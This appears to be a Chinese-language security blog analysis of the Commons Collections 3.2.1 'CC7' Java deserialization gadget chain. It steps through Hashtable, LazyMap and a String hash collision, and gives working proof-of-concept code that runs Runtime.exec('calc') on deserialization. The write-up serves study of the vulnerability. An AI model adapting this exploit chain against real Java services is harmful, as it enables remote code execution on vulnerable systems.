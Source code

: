 

# 分析版本

Commons Collections 3.2.1

JDK 8u65

环境配置参考[JAVA安全初探(三):CC1链全分析](https://xz.aliyun.com/t/12669?time__1311=mqmhDvqIxfgD8DlxGo4%2bxCw67o7KKG=z4D&amp;alichlgref=https://www.google.com/)

# 分析过程

CC7,6,5都是在CC1 LazyMap利用链(引用)的基础上。

只是进入到LazyMap链的入口链不同。

CC7这个链有点绕，下面顺着分析一下利用链。

入口类是Hashtable，看下它的readObject函数。

调用了reconstitutionPut方法

```java
private void readObject(java.io.ObjectInputStream s)
     throws IOException, ClassNotFoundException
{
    // Read in the length, threshold, and loadfactor
    s.defaultReadObject();

    // Read the original length of the array and number of elements
    int origlength = s.readInt();
    int elements = s.readInt();

    // Compute new size with a bit of room 5% to grow but
    // no larger than the original size.  Make the length
    // odd if it's large enough, this helps distribute the entries.
    // Guard against the length ending up zero, that's not valid.
    int length = (int)(elements * loadFactor) + (elements / 20) + 3;
    if (length > elements && (length & 1) == 0)
        length--;
    if (origlength > 0 && length > origlength)
        length = origlength;
    table = new Entry<?,?>[length];
    threshold = (int)Math.min(length * loadFactor, MAX_ARRAY_SIZE + 1);
    count = 0;

    // Read the number of elements and then all the key/value objects
    for (; elements > 0; elements--) {
        @SuppressWarnings("unchecked")
            K key = (K)s.readObject();
        @SuppressWarnings("unchecked")
            V value = (V)s.readObject();
        // synch could be eliminated for performance
        reconstitutionPut(table, key, value);
    }
}
```

首先要知道，HashTable是数组+链表的形式，链表是用来处理哈希冲突的。

**代码分析放在注释中**

```java
private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
    throws StreamCorruptedException
{
    if (value == null) {
        throw new java.io.StreamCorruptedException();
    }
    // Makes sure the key is not already in the hashtable.
    // This should not happen in deserialized version.
    int hash = key.hashCode();
    int index = (hash & 0x7FFFFFFF) % tab.length;      //首先求key的哈希值
    for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) { //for循环是判断，key哈希值对应的链表中有没有key相同的键值对，如果有则抛出异常（键不能相同）
        if ((e.hash == hash) && e.key.equals(key)) {    //根据运算符规则，我们想执行&&的第二项e.key.equals(key)就要保证第一项(e.hash == hash)为真（关于哈希碰撞的寻找，下面讲）
            throw new java.io.StreamCorruptedException();
        }
    }
    // Creates the new entry.
    @SuppressWarnings("unchecked")
        Entry<K,V> e = (Entry<K,V>)tab[index];
    tab[index] = new Entry<>(hash, key, value, e);
    count++;
}
```

调用从e.key.equals(key)开始，我们可以控制两个key的传值。**（下文中e.key用key1代替，(key)用key2代替）**

首先e.key.equals，我们控制key1的类型是LazyMap，就成了调用LazyMap.equals()。而LazyMap类中没有实现equals方法，就调用到了它父类AbstractMapDecorator的equals。

```java
public boolean equals(Object object) { //参数参入的是key2
    if (object == this) {
        return true;
    }
    return map.equals(object);         //这里的map注意是，key1（LazyMap的key）  作者在这里是把LazyMap的key设置为HashMap类型， 具体原因下面分析
}
```

下面走到了HashMap.equals(key2) ，这里又由于HashMap中没有equals方法，成了调用其父类AbstractMap的equals方法。

```java
public boolean equals(Object o) {    //参数传入是key2
    if (o == this)
        return true;

    if (!(o instanceof Map))
        return false;
    Map<?,?> m = (Map<?,?>) o;      //key2赋值给m
    if (m.size() != size())
        return false;

    try {
        Iterator<Entry<K,V>> i = entrySet().iterator();
        while (i.hasNext()) {
            Entry<K,V> e = i.next();
            K key = e.getKey();
            V value = e.getValue();
            if (value == null) {
                if (!(m.get(key)==null && m.containsKey(key))) 
                    return false;
            } else {
                if (!value.equals(m.get(key)))            //m是key2调用key2的get方法，也就是找到了调用LazyMap.get()的地方，我们把key2赋个LazyMap类型就好了，   key是key1
                    return false;
            }
        }
    } catch (ClassCastException unused) {
        return false;
    } catch (NullPointerException unused) {
        return false;
    }

    return true;
}
```

到这里调用到了LazyMap.get方法，利用链完成。

我们传入两个LazyMap，保证两个LazyMap.hashCode相等，也就是LazyMap.key.hashCode的值相等，找哈希碰撞。

下面看下哈希碰撞，作者找到的是String类的碰撞

```java
public int hashCode() { //String类的hashCode方法
    int h = hash;
    if (h == 0 && value.length > 0) {
        char val[] = value;

        for (int i = 0; i < value.length; i++) {
            h = 31 * h + val[i];
        }
        hash = h;
    }
    return h;
}
```

$$
"yy".hashCode()=31*ASCII(y) + 1*ASCII(y) = 31*121+1*121=3872
$$

和"zZ"求出来的值是一样的，哈希碰撞我们就找到了。

我们把"yy"和"zZ"，put进LazyMap的key中就好了。

之后写Poc

```java
public class cc7 {
    //Hashtable
    //Map map = new HashMap<>;
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
                new ConstantTransformer("1")
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> hashMap1 = new HashMap<>();
        HashMap<Object, Object> hashMap2 = new HashMap<>();

        Map map1 = LazyMap.decorate(hashMap1, chainedTransformer);
        map1.put("yy", 1);                    ////写入hashMap1
        Map map2 = LazyMap.decorate(hashMap2, chainedTransformer);
        map2.put("zZ", 1);

        Hashtable<Object, Object> hashtable = new Hashtable<>();
        hashtable.put(map1, 1);
        hashtable.put(map2, 1);
        
        //cc1_poc.serialize(hashtable);
        cc1_poc.unserialize("s.ser");
    }
}
```

我们发现反序列化时不能弹计算器，debug看一下，第二个key传进来的size是2，导致hashCode计算为7730

![image-20240709150021575](https://s2.loli.net/2024/07/09/Jljmw8DsedxHtNU.png)

传进来size是2是因为，在`hashtable.put(map2, 1);`时，触发了利用链（put方法也会检查键值对，触发利用链），调用了LazyMap的get方法（触发了计算器），还执行了map2.put("yy", 1)。解决map2.put问题，在序列化之前我们反射调用map2的remove方法，把"yy"删除。

![image-20240709152052991](https://s2.loli.net/2024/07/09/I45K7NSoVDvbseY.png)

最终Poc

```java
public class cc7 {
    //Hashtable
    //Map map = new HashMap<>;
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
                new ConstantTransformer("1")
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> hashMap1 = new HashMap<>();
        HashMap<Object, Object> hashMap2 = new HashMap<>();

        Map map1 = LazyMap.decorate(hashMap1, chainedTransformer);
        map1.put("yy", 1);                    ////写入hashMap1
        Map map2 = LazyMap.decorate(hashMap2, chainedTransformer);
        map2.put("zZ", 1);

        Hashtable<Object, Object> hashtable = new Hashtable<>();
        hashtable.put(map1, 1);
        hashtable.put(map2, 1);

        //反射
        Method remove = map2.getClass().getDeclaredMethod("remove", Object.class);
        remove.setAccessible(true);
        remove.invoke(map2,"yy");

        cc1_poc.serialize(hashtable);
        cc1_poc.unserialize("s.ser");
    }
}
```

这样在序列化时也会触发计算器